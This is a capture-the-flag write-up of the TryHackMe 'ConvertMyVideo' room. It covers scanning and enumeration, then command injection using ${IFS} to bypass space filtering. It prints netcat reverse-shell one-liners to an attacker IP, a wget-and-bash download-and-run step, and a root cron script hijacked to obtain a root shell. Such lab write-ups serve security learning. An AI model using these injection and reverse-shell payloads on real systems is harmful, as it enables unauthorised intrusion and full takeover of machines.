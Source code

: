 ```yaml
---
title: ConvertMyVideo - Medium THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, tryhackme]
categories: [Talace, writeup]
writeup: :title
permalink: /convertmyvideo
tags: [thm, writeup, medium, linux, command injection, web]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Medium**
- Author: **Talace**

# Scanning 🤖

**threader300.py**
```
**python3 threader3000.py**
```
```
Port 22 is open
Port 80 is open
```
**nmap scan**
```
nmap -p22,80 -sV -sC -T4 -Pn -oA 10.10.232.225 10.10.232.225
```
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
# Enumeration 👀

**dirb scan**
```
dirb http://10.10.232.225/ /usr/share/wordlists/dirb/common.txt
```
```
---- Scanning URL: http://10.10.232.225/ ----
+ http://10.10.232.225/admin (CODE:401|SIZE:460)
```
# Command injection 💉
We spawn on the main page

![mainPage](/assets/convertMyVideo/mainPage.png)

I capture the request in burp.. seems not very secure
![burp1](/assets/convertMyVideo/burp1.png)

Try **'id'** command, it works!
![idCommand](/assets/convertMyVideo/idCommand.png)

I can't **'ls -la'**, it return nothing, maybe i can't have white space ? 
I have found that the var IFS, is by default a ' ', so let's try with it! 
```bash
--version;ls${IFS}-la;
```

Nice it work, from this i'm able to retrieve a lot of data, and the user by the same occasion
![userFlag](/assets/convertMyVideo/userFlag.png)

**It's cool, but we need a way to enter, let's put a reverse shell in it!**
open my listener:
```bash
nc -nvlp 4444
```

And send my reverse shell! 
```bash
rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|sh${IFS}-i${IFS}2>&1|nc${IFS}10.8.138.226${IFS}4444${IFS}>/tmp/f;
```

**Oh crap!? It close instantly, let's wget and run script!**😦
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4444 >/tmp/f" >> shell.sh
```
Open a http server
```bash
python3 -m http.server 80
```
And lunch my new command, wget the script and run it with bash
```bash
--version;wget${IFS}http://10.8.138.226/pwn.sh;bash${IFS}shell.sh;
```
**Yessir! We are in!**😼

# Privilege escalation 🐧
**Upgrade the shell**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Let's run pspy**
check wich one is need:
```bash
uname -a

Output: Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
I need the 64 bits, wget it and change rights:
```bash
wget http://10.8.138.226:81/pspy64
&&
chmod +xs pspy64
```

**Now lunch the pspy**

./pspy64, Oh interesting cron job!
```bash
2023/11/11 18:13:01 CMD: UID=0     PID=27982  | bash /var/www/html/tmp/clean.sh
```

**Let's lunch a reverseshell from it.**

Open a netcat:
```bash
nc -nvlp 4445
```
Now put the revershell in it.
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4445 >/tmp/f" >> clean.sh
```
Go back on your netcat... Boom! Got root GG!

![ROOT](/assets/convertMyVideo/root.png)

# Resources
How to run a command without white space: [Article](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces?source=post_page-----e012e7db996--------------------------------)